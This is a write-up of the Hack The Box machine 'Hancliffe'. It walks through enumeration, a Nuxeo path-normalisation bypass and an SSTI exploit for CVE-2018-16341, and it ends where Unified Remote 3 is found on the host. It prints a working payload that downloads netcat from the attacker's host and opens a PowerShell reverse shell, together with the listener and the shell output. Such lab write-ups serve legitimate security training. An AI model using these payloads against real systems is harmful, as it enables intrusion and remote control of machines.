 ```yaml
---
title:     "Hack The Box - Hancliff"
tags: [windows,hard,nuxeo,ssti,path normalization,unified remote,cve,firefox,binex,pwn,eggunter]
categories: HackTheBox
---
```

[![00_info_card](/img/hancliff/00_info_card.png)](/img/hancliff/00_info_card.png)

Hancliffe is a hard rated machine on HackTheBox created by [Revolt](https://www.hackthebox.eu/home/users/profile/189435). For the user part we will abuse a path normalisation vulnerability and a CVE in nuxeo to achieve RCE and a foothold on the machine. On the machine the running `Unified Remote 3` version has another know vulnerability which gives us a shell as clara. For the root part we will find credentials for a password manager in clara's firefox data. This let's us login via PSRemote as the development user, who has access to a directory with an application running as administrator. This application has a buffer overflow vulnerability which we can abuse to achieve a reverse shell as administrator on the machine.

# User

## Nmap

As usual we start our enumeration of with a nmap scan against all ports followed by a script and version detection scan against the open ones to get an initial overview of the attack surface.

`All ports`
```
$ sudo nmap -p- -T4 10.129.95.247
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-10 16:43 GMT
Nmap scan report for hancliffe.htb (10.129.95.247)
Host is up (0.066s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
8000/tcp open  http-alt
9999/tcp open  abyss

Nmap done: 1 IP address (1 host up) scanned in 290.27 seconds
```

`Scrip and version`
```
$ sudo nmap -p80,8000,9999 -sC -sV 10.129.95.247
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-10 16:49 GMT
Nmap scan report for hancliffe.htb (10.129.95.247)
Host is up (0.027s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.21.0
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.21.0
8000/tcp open  http    nginx 1.21.0
|_http-title: HashPass | Open Source Stateless Password Manager
|_http-server-header: nginx/1.21.0
9999/tcp open  abyss?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBPr
ogNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe:
|     Welcome Brankas Application.
|     Username: Password:
|   NULL:
|     Welcome Brankas Application.
|_    Username:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.92%I=7%D=10/10%Time=61631994%P=x86_64-pc-linux-gnu%r(N
...[snip]...
F:sword:\x20")%r(NotesRPC,31,"Welcome\x20Brankas\x20Application\.\nUserna
SF:me:\x20Password:\x20");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 157.03 seconds
```

## Nuxeo

From the open ports the web ports seem promising so we start there. Going over to port 80 we see the default nginx hosting page.

[![01_nginx_home](/img/hancliff/01_nginx_home.png)](/img/hancliff/01_nginx_home.png)

On port 8000 there is an installation of a password manager running which doesn't seem of much use just yet.

[![02_hashpass_home](/img/hancliff/02_hashpass_home.png)](/img/hancliff/02_hashpass_home.png)

Running a gobuster scan on the application on port 80 we can identify a maintenance directory which get's redirected to `/nuxeo/Maintenance/`.

```
$ gobuster dir -w /opt/SecLists/Discovery/Web-Content/raft-large-words-lowercase.txt -u http://hancliffe.htb/
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://hancliffe.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-large-words-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/10 17:28:57 Starting gobuster in directory enumeration mode
===============================================================
/.                    (Status: 200) [Size: 612]
/maintenance          (Status: 302) [Size: 0] [--> /nuxeo/Maintenance/]
/con                  (Status: 500) [Size: 494]
/nul                  (Status: 500) [Size: 494]
```

Looking for recent vulnerabilities in nuxeo we find [CVE-2018-16341](https://github.com/mpgn/CVE-2018-16341). Going over to `/maintenance` it just displays a `we'll be back soon` page.

[![03_nginx_maintenance](/img/hancliff/03_nginx_maintenance.png)](/img/hancliff/03_nginx_maintenance.png)

The application does howerver perform a dangerous path normalisation which let's us access the directory one path up leading to access to the `login.jsp` page mentioned in the PoC exploit of the CVE. This page also displays the running version of nuxeo which seems to be promising for the vulnerability to be present.

[![04_nuxeo_login](/img/hancliff/04_nuxeo_login.png)](/img/hancliff/04_nuxeo_login.png)

Testing for the SSTI with a simple payload we can see that our code gets evaluated, confirming our suspicion.

[![06_nuxeo_ssti_poc](/img/hancliff/06_nuxeo_ssti_poc.png)](/img/hancliff/06_nuxeo_ssti_poc.png)

Following the PoC of the exploit we can build a payload adding an additional parameter in the `exec` part. This let's us move our complete payload to the end of the request.

```
/maintenance/..;/login.jsp/pw${''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(param.x)}.xhtml?x=powershell.exe+iwr+http://10.10.14.74/nc64.exe+-o+C:/windows/temp/c.exe;C:/windows/temp/c.exe+-e+powershell+10.10.14.74+7575
```

We start a python webserver to host our netcat binary and listen on the port we want to recieve the reverse shell.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
$ rlwrap nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Now we can send the request in burp, url encoding the whole SSTI part of the payload to safely send bad characters.

[![07_nuxeo_burp_rev](/img/hancliff/07_nuxeo_burp_rev.png)](/img/hancliff/07_nuxeo_burp_rev.png)

We get a hit on our web server for the `nc64.exe` binary and almost instantly after a reverse shell on our listener as `svc_account`

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.95.247 - - [10/Oct/2021 19:49:06] "GET /nc64.exe HTTP/1.1" 200 -
10.129.95.247 - - [10/Oct/2021 19:50:10] "GET /nc64.exe HTTP/1.1" 200 -
```

```
$ rlwrap nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.95.247.
Ncat: Connection from 10.129.95.247:49762.
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Nuxeo> whoami
hancliffe\svc_account
```

## Unified Remote 3

Looking for unusual installed programs we find `Unified Remote 3`.

```
PS C:\Nuxeo > ls '\Program Files (x86)\'

    Directory: C:\Program Files (x86)


d-----          6/3/2021   8:09 PM                Microsoft
d-----         12/7/2019   6:48 AM                Microsoft.NET
d-----         6/26/2021  10:15 PM                Mozilla Maintenance Service
d-----         6/12/2021   2:51 AM                MSBuild
d-----         6/12/2021   2:51 AM                Reference Assemblies
d-----         6/12/2021  12:21 AM                Unified Remote 3
d-----          4/9/2021   6:48 AM                Windows Defender
d-----         7/18/2021  12:20 AM                Windows Mail
d-----         12/7/2019   6:44 AM                Windows NT
d-----          4/9/2021   6:48 AM                Windows Photo Viewer
d-----         12/7/2019   1:25 AM                WindowsPowerShell

```
